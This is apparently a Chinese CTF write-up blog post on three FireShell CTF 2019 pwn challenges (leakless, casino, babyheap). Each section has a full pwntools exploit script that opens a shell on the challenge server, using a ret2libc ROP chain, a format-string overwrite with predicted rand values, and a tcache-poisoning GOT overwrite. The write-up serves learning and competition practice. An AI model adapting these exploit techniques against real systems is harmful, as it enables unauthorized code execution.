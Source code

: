 ```yaml
---
title: FireShellCTF2019反思
author: nepire
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 12:26:45
tags:
keywords:
description:
photos:
---
```

实在是不应该，赛后看了下Pwn最后一题的EXP反省了下，要是能专注去分析还是能搓出来的，结果到后面也只做出来了常规的三题，不是一个很好的阶段结束，写完这篇总结就去肝19WF的参展品了，比赛估计也要停一段时间打不了。






### leakless
```bash
➜  leakless checksec leakless
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/leakless/leakless'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
很基础的32位ret2libc
构造ROP来puts出puts_addr，题目没给libc，但[libc-search](https://libc.blukat.me/)搜得到libc,通过puts_sym来计算出libc_base，然后再计算出system和`/bin/sh`的地址,最后构造ROP链执行`system('/bin/sh')`getshell

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='i386',log_level='debug')
# n = process('./leakless')
n = remote('35.243.188.20',2002)
elf = ELF('./leakless')
libc = ELF('./libc.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_ret = 0x080483ad
feedme = 0x080485cb

payload = 'a'*0x48+'aaaa'+p32(puts_plt)+p32(pop_ret)+p32(puts_got)+p32(feedme)
# n.recv()
n.sendline(payload)

libc_base = u32(n.recv(4))-libc.sym['puts']
print "libc_base:",hex(libc_base)

payload = 'a'*0x4c + p32(libc_base + libc.sym['system'])+'aaaa'+p32(libc_base+libc.search('/bin/sh').next())
n.sendline(payload)

n.interactive()
```
#### FLAG
`F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}`

### casino
```bash
➜  casino checksec casino
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/casino/casino'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
开始输入name的时候有一个`0x10`byte的格式化字符串，然后接着是100次伪随机数的判定，一开始没细看直接搓了100次判定成功的payload，发现拿不到flag，后来仔细看了下要求是`成功的次数大于100次`，正常来说是不可能的，但它判定成功后`累加的是一个全局变量bet`而不是`count++`或`count+=1`，也就是说，我们如果把bet改成大于1的值就可以让最终判断成功次数时大于100,而前面的16byte格式化字符串就足够用来修改任意地址的1byte，虽然因为`8byte补齐`和`\x00截断`的问题坑了好久，但最后还是搓出来一个还行的payload

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
# n = process('./casino')
n = remote('35.243.188.20',2001)
elf = ELF('./casino')
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

bet = 0x03
fmt_offset = 10
seed = libc.time(0)/0xa
print "seed:",hex(seed)
seed += bet
libc.srand(seed)
idx = 1
n.recvuntil('?')
payload = 'aaa%11$n'+p32(0x602020).ljust(8,'\x00')
n.sendline(payload)

for i in range(0,99):
    # n.recvuntil('number: ')
    num = libc.rand()
    sleep(0.08)
    n.sendline(str(num))
    s = "<%03d/100>"%idx
    log.success(s)
    idx += 1

n.interactive()
```
#### FLAG
`F#{buggy_c4s1n0_1s_n0t_f41r!}`

### babyheap
```bash
➜  babyheap checksec babyheap
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
本来想说坑，可想想是自己没有先check一下libc版本的锅，只能说自己还不够成熟了（无奈）
```bash
➜  babyheap strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.26-0ubuntu2.1) stable release version 2.26, by Roland McGrath et al.
Compiled by GNU CC version 6.4.0 20171010.
	GNU Libidn by Simon Josefsson
```
libc版本是2.26，环境切到2.26下开始分析，很快就能就发现可能存在`UAF&double free`，还有一个choice为1337功能大致是malloc(0x60)然后写0x40byte的函数，我们可以想到用UAF劫持程序在一个可写的地方(!! bss段开始的地方有stdin和stdout不能覆盖，要加个偏移)malloc一个块然后通过`1337`函数来伪造bk指针为atoi_got来泄漏出libc，再通过`tcache_poisoning`把atoi_got改成system_addr后回到有用atoi的地方输入`/bin/sh`就能得到shell了。
#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
# n = process('./babyheap')
n = remote("51.68.189.144", 31005)
elf = ELF('./babyheap')
libc = ELF('./libc.so.6') #2.26


def choice(idx):
    n.recvuntil('> ')
    n.sendline(str(idx))

def new():
    choice(1)

def edit(content):
    choice(2)
    n.recvuntil('Content? ')
    n.sendline(content)

def show():
    choice(3)

def free():
    choice(4)

def readn(content):
    choice(1337)
    n.recvuntil('Fill ')
    n.send(content)


bss = elf.bss()+0x20
log.success(hex(bss))
atoi_got = elf.got['atoi']
log.success(hex(atoi_got))

new()
free()
edit(p64(bss))
new()
# gdb.attach(n)
payload = p64(0)*5 + p64(atoi_got)
readn(payload)
show()
n.recvuntil('Content: ')
libc_base = u64(n.recv(6)+'\x00\x00')-libc.sym['atoi']
print "libc_base:",hex(libc_base)
system_addr = libc_base + libc.sym['system']
edit(p64(system_addr)) #atoi_got -> system_addr
choice('/bin/sh\x00')

n.interactive()
```
#### FLAG
`F#{W3lc0m3_t0_h34p_Expl01t4t10n!}`
